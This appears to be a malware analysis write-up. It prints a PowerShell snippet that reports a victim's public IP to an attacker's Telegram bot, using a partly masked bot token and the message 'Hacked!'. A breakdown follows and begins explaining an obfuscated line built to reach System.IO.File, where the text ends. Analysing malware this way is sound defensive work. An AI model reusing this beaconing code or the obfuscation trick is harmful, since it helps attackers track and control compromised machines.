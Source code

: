 ```powershell

if ($null -eq $publicIP) {
    Write-Output "No public IP address found."
} else {
    # Variables for Telegram
    $BotToken = "6XXXX34215:AAGXKhVLT1C5TbIUQh8MtkxobLT6VYXXXX"
    $ChatID = "-4586792XXXX"
    $Message = "Hacked! By Tommy Victim IP: $publicIP"

    # Function to send a message to Telegram
    function Send-TelegramMessage {
        param (
            [string]$BotToken,
            [string]$ChatID,
            [string]$Message
        )
        
        $uri = "https://api.telegram.org/bot$BotToken/sendMessage"
        $body = @{
            chat_id = $ChatID
            text    = $Message
        }

        try {
            $response = Invoke-RestMethod -Uri $uri -Method Post -Body $body
            return $response
        }
        catch {
            Write-Error "Failed to send message to Telegram: $_"
        }
    }

    # Send the message to Telegram
    Send-TelegramMessage -BotToken $BotToken -ChatID $ChatID -Message $Message
}


```


We can say that;

This PowerShell script performs several tasks involving string manipulation, file creation, and execution of batch scripts. Below is a breakdown of the main components:

1. **Variable Initialization**:
```powershell
   sET-iTem vaRiaBlE:a6p ( [type]("{2}{1}{0}" -f 'E','.Fil','IO') )
```


This line sets a variable **'a6p'** to the type **[System.IO.File]**, using a formatted string to construct the type name.
